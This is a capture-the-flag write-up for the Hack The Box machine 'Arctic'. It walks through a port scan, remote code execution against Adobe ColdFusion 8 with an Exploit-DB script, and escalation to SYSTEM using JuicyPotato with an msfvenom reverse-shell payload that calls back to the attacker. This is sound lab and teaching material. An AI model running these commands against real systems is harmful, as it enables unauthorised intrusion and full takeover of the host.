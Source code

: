 ```yaml
---
title: "HTB Arctic"
permalink: /writeups/arctic
location: default
---
```


# HTB Arctic

**Machine Information**

	IP : 10.10.10.11
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.11 -- -sC -sV -Pn
```

This should reveal three open ports: `135`, `8500`, and `49154`

```
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigate each of the ports and there should be a web server running on port 8500.

> http://10.10.10.11:8500/

The default page is an `Index of /` and allows directory listing so we can explore the available files. Exploring the directories will reveal an Adobe ColdFusion 8 Administrator panel at the following location:

> http://10.10.10.11:8500/CFIDE/administrator/

### Getting a Foothold

**Adobe ColdFusion Exploit**

Check for known exploits using `searchsploit`.

```
searchsploit coldfusion 8
```

This will reveal a python script that we can use for remote code execution.

```
Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

> https://www.exploit-db.com/exploits/50057

Open the exploit and update the `LHOST`, `LPORT`, and `RHOST` parameters to the appropriate values. Start a new `netcat` listener and run the exploit.

```
python3 50057.py
```

Success!

```
C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

The user flag can be found in the following directory:

```
C:\Users\tolis\Desktop\user.txt
```

### Privilege Escalation

Checking our users privileges with `whoami /priv` reveals that we have the `SeImpersonatePrivilege` which may be exploitable.

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

For this we need to upload the `JuicyPotato.exe` exploit that can be downloaded from the following link:

> https://github.com/ohpe/juicy-potato/releases/tag/v0.1

We will also need a reverse shell payload that can be generated using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Once both of these are on the target machine start a new `netcat` listener and run the exploit.

```
.\JuicyPotato.exe -t t -p .\shelly.exe -l 5837
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
